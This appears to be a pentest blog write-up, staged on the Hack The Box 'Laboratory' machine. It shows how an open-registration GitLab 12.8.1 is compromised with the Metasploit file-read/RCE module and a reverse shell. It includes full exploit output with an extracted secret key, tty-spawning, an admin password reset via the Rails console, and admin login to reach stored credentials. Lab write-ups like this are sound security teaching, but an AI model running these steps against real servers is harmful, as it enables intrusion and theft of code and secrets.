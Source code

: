 ```yaml
---
layout: default
---
```


### Steal project Source Code in 60 seconds

----------

![title](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/title.jpg)

----------

The journey starts with Company Gitlab CI with open register functional that i got from the rsource company list , Gitlab is self hosted on barametal hosting. The Current version of the gitlab-ce is vulnerable to LFI and RCE exploiting the RCE and getting initial shell in a server , Changing the admin account with github-rails console and login as him on gitlab. Got the private credentials. keys in a project-repo.

For notes used test env as HTB Machine - Laboratory because real env under NDA.

####  Gitlab CI resource

And i can see that Gitlab is hosted. I saw open Register function and Try do it!

----------

![register](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/register.jpg)

----------

Now i registered myself as oleksii and logged in

----------

![login](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/login.jpg)

----------

Didn’t see anything good and juicy then i just go to `https://gitlab.site.io/help`

----------

![version](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/version.jpg)

----------

So its 12.8.1 , so searched a bit about it on google and got so many CVEs. And on rapid7.com site saw info about vulnerabilities, it was disclosed few months ago (Created 12/10/2020) and was about LFI & RCE. The RCE only affects versions 12.4.0 and above when the vulnerable `experimentation_subject_id` cookie was introduced. Tested on GitLab 12.8.1 and 12.4.0.

This picture in Company Gitlab CI says a lot:)

----------

![asap](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/asap.jpg#center)

----------

#### RCE in the gitlab

Now i can that i exploitetion RCE using msfconsole tool `https://www.rapid7.com/db/modules/exploit/multi/http/gitlab_file_read_rce` because exploit was development and added it to exploit list. 

```
msf6 exploit(multi/http/gitlab_file_read_rce) > use exploit/multi/http/gitlab_file_read_rce
msf6 exploit(multi/http/gitlab_file_read_rce) > show options 

Module options (exploit/multi/http/gitlab_file_read_rce):

   Name             Current Setting                                               
   ----             ---------------                                               
   USERNAME         oleksii@test.test                                             
   PASSWORD         oleksii@test.test                                             
   RHOSTS           10.10.10.*                                                         
   RPORT            443                                                           
   SECRETS_PATH     /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml  
   TARGETURI        /users/sign_in                                                
   VHOST            gitlab.site.io                                                

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.*       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

Exploitation RCE vulnerability: 

```
[*] Started reverse TCP handler on 10.10.14.**:2222 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. GitLab 12.8.1 is a vulnerable version.
[*] Logged in to user oleksii
[*] Created project /oleksii/irUhEXC3
[*] Created project /oleksii/Dq5g60ow
[*] Created issue /oleksii/irUhEXC3/issues/1
[*] Executing arbitrary file load
[+] File saved as: '/root/.msf4/loot/20210102160557_default_10.10.10.*_gitlab.secrets_454778.txt'
[+] Extracted secret_key_base 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
[*] NOTE: Setting the SECRET_KEY_BASE option with the above value will skip this arbitrary file read
[*] Attempting to delete project /oleksii/irUhEXC3
[*] Deleted project /oleksii/irUhEXC3
[*] Attempting to delete project /oleksii/Dq5g60ow
[*] Deleted project /oleksii/Dq5g60ow
[*] Command shell session 3 opened (10.10.14.*:2222 -> 10.10.10.*:50878) at 2021-01-02 16:06:02 -0500

ls -la
total 8
drwx------ 2 git root 4096 Jul  2  2020 .
drwxr-xr-x 9 git root 4096 Jan  2 20:41 ..
python3 -c 'import pty; pty.spawn("/bin/sh")'

$ls -la
drwx------ 2 git root 4096 Jul  2  2020 .
drwxr-xr-x 9 git root 4096 Jan  2 20:41 ..

```

Often during pen tests you may obtain a shell without having tty, yet wish to interact further with the system. Here are some commands which will allow you to spawn a tty shell. Obviously some of this will depend on the system environment and installed packages.

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

#### Resetting admin password

Now since the gitlab is installed i can spawn a gitlab-rails console and reset the admin password , and check who is admin. Resetting admin password offical document link `https://docs.gitlab.com/12.10/ee/security/reset_root_password.html`

Used command from this doc I could reset admin password. Start a Ruby on Rails console with this command:
```gitlab-rails console -e production
```
Wait until the console has loaded.

There are multiple ways to find your user. You can search for email or username.
```
user = User.where(id: 1).first
```
Found Gitlab admin user:

```
irb(main):008:0> user = User.where(id: 1).first
user = User.where(id: 1).first
=> #<User id:1 @dexter>
```

or

Other type get username and email without Gitlab authentification is use api `https://gitlab.site.io/api/v4/users/1`

```
{
  "id": 1,
  "name": "Dexter McPherson",
  "username": "dexter",
  "state": "active",
  "avatar_url": "http://gitlab.site.iouploads/-/system/user/avatar/1/avatar.png",
  "web_url": "http://gitlab.site.io/dexter",
  "created_at": "2020-07-02T18:02:18.859Z",
  "bio": "",
  "location": "",
  "public_email": "",
  "skype": "",
  "linkedin": "",
  "twitter": "",
  "website_url": "",
  "organization": ""
}
```

Now you can change your password:

``` 
user.password = 'secret_pass'
user.password_confirmation = 'secret_pass'
```

It’s important that you change both password and password_confirmation to make it work.

Don’t forget to save the changes.

``` 
user.save!
```
Exit the console and try to login with your new password.

#### Login as admin on gitlab

Now can login as admin - dexter : secret_pass and can see all repos with credentials and keys. 

----------

![login_admin](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/login_admin.jpg)

----------


So now see how can steal project Source code in 60 seconds because I think If you repeat all commands from this note then spend no more than 60 seconds. 

 
